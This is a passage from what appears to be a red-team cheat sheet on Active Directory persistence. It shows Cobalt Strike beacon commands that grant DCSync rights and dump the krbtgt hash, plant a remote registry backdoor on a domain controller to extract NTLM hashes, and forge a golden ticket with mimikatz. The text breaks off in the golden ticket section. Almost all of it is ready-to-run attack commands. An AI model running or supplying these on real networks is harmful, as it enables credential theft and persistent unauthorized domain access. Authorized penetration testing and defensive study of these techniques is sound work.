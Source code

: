 #### Resources
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://phackt.com/en-kerberos-constrained-delegation-with-protocol-transition
- https://exploit.ph/revisiting-delegate-2-thyself.html

### DCSync Backdoor

```
# grant user DCSync rights
beacon> Add-DomainObjectAcl -TargetIdentity 'DC=vault,DC=io' -PrincipalIdentity 'r.blurr' -Rights DCSync
[...]

beacon> dcsync krbtgt
[...]
```

### Remote Registry Backdoor

```
# as DA
beacon> powershell-import /tools/DAMP/Add-RemoteRegBackdoor.ps1
beacon> powershell Add-RemoteRegBackdoor -ComputerName dc01 -Trustee vault\s.larken

# NTLM of computer account
beacon> powershell Get-RemoteMachineAccountHash -ComputerName dc01

# NTLM of local account
beacon> powershell Get-RemoteLocalAccountHash -ComputerName dc01
```

#### Resources
- https://github.com/HarmJ0y/DAMP

### Golden Tickets

```
# create
beacon> mimikatz kerberos::golden /user:administrator /domain:vault.io /sid:S-1-5-21-3865823697-1816233505-1834004910 /krbtgt:ui23226a07bed6f9617e6eafe01apo87 /ticket:golden.kirbi

# imperonsate
